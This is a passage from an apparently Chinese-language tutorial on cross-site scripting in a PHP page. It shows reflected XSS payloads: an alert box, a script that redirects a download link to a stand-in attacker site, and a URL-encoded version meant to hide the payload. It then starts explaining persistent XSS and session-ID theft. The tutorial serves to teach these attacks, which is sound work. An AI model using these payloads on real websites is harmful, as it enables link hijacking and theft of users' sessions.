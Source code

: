 当用户点击该链接时，将产生以下html代码，带’attacked’的告警提示框弹出：

```php
Welcome guest
<script>alert('attacked')</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>

```

除了插入alert代码，攻击者还可以通过以下URL实现修改链接的目的：

```php
index.php?name=
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
```

当用户点击以上攻击者提供的URL时，index.php页面被植入脚本，页面源码如下：

```php
Welcome 
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```

用户再点击 “Click to Download” 时，将跳转至攻击者提供的链接。

对于用于攻击的URL，攻击者一般不会直接使用以上可读形式，而是将其转换成ASCII码，以下URL同样用于实现链接地址变更：

```php
index.php?name=%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%22%61%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65%66%3d%22%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%2d%73%69%74%65%2e%63%6f%6d%2f%22%3b%7d%3c%2f%73%63%72%69%70%74%3e
```

### 持久型xss攻击

持久型xss攻击会把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在。下面来看一个利用持久型xss攻击获取session id的实例。

#### session背景知识

​        我们知道HTTP是一个无状态维持的协议，所有请求/应答都是独立的，其间不保存状态信息。但有些场景下我们需要维护状态信息，例如用户登录完web应用后，再一定时间内，用户再进行登录，应不需要再输入用户名/密码进行鉴权。

​        这时我们用cookie和session解决状态维护问题，当用户首次登入时，服务器为该用户创建一个 session  ID，同时向游览器传送一个 cookie，cookie保存会话连接中用到的数据，session  ID作为会话标识，游览器后续的请求均基于该session ID。

​        攻击者可以提供一个攻击链接，当用户点击该链接时，向攻击者自己的服务器发送一条保存有用户session ID的信息，这样就可以窃取到用户的session ID，得到用户的执行权限。

